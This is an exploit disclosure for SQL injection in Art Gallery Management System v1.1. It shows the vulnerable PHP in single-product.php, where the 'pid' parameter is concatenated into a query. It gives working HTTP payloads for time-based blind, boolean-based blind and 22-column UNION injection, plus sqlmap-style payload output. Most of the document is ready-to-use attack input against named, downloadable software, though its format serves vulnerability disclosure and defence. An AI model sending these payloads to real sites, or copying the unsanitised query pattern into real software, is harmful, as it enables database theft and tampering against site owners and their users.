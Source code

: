 ```yaml
---
title: Art Gallery Management System Project v1.1 - SQL Injection
published: true
---
```


- Exploit Title: Art Gallery Management System Project v1.1 - SQL Injection
- Application: Art Gallery Management System 
- Google Dork: N/A
- Date: 16.03.2024
- Bugs: SQL Injection 
- Exploit Author: SoSPiro
- Vendor Homepage: https://phpgurukul.com/
- Software Link: https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/
- Version: 1.1
- Tested on: Windows 10 64 bit Wampserver 

----



### Vulnerability Details

- **Application Name:** Art Gallery Management System 
- **Vendor Homepage:** [Vendor Homepage](https://phpgurukul.com/)
- **Software Link:** [Vendor Homepage](https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/)
- The vulnerability lies in the following code snippet:

`Art-Gallery-MS-PHP/agms/single-product.php/single-product.php`

```php
<?php
...

$pid=$_GET['pid'];

$ret=mysqli_query($con,"select tblarttype.ID as atid,tblarttype.ArtType as typename,tblartmedium.ID
as amid,tblartmedium.ArtMedium as amname,tblartproduct.ID as apid,tblartist.Name,tblartproduct.Title,
tblartproduct.Dimension,tblartproduct.Orientation,tblartproduct.Size,tblartproduct.Artist,
tblartproduct.ArtType,tblartproduct.ArtMedium,tblartproduct.SellingPricing,tblartproduct.Description,
tblartproduct.Image,tblartproduct.Image1,tblartproduct.Image2,tblartproduct.Image3,tblartproduct.Image4,
tblartproduct.RefNum,tblartproduct.ArtType from tblartproduct join tblarttype on tblarttype.ID=tblartproduct.ArtType 
join tblartmedium on tblartmedium.ID=tblartproduct.ArtMedium join tblartist on tblartist.ID=tblartproduct.Artist where tblartproduct.ID='$pid'");

...

?>
```
In this code, SQL injection occurs because the user input is directly concatenated into the SQL query without proper sanitization or validation. The $_GET['pid'] user input is included directly in the query without being checked or cleaned, allowing attackers to inject malicious SQL code and potentially manipulate the database or access sensitive information. 

### Vulnerability Description:

The vulnerability exists in the `single-product.php` file of AGMS,
where user inputs are not properly filtered or sanitized, allowing for direct insertion into SQL queries.
Particularly, the pid parameter allows user input, enabling attackers to inject malicious SQL code.



### Proof of Concept (PoC):

- Below are examples demonstrating the SQL injection vulnerability in AGMS:

1: **Time Based Blind SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=1'+AND+(SELECT+9007+FROM+(SELECT(SLEEP(5)))zFTQ)--+mMJh HTTP/1.1
```
2: **Boolean-Based blind SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=-9570'+OR+9622%3d9622--+aVjE HTTP/1.1
```
3: **UNION Query SQL Injection**
```
GET /Art-Gallery-MS-PHP/agms/single-product.php?pid=1'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,
CONCAT(0x71716b7671,0x4e54625a41616c594e416443545a424f765177596b4d436155664a6766446e5154665748514f437a,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+- HTTP/1.1
```

- Poc Foto **(Time Based Blind SQL Injection)**

![This is an alt text.](/assets/zday/raJ8Cp9.png "poc foto")

### Vulnerability Types:

```
---
Parameter: pid (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: pid=-9570' OR 9622=9622-- aVjE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=1' AND (SELECT 9007 FROM (SELECT(SLEEP(5)))zFTQ)-- mMJh

    Type: UNION query
    Title: Generic UNION query (NULL) - 22 columns
    Payload: pid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71716b7671,0x4e54625a41616c594e416443545a424f765177596b4d436155664a6766446e5154665748514f437a,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```


### Impact

This vulnerability enables malicious actors to execute various harmful actions,
including session hijacking, data exfiltration, and tampering with database structures.

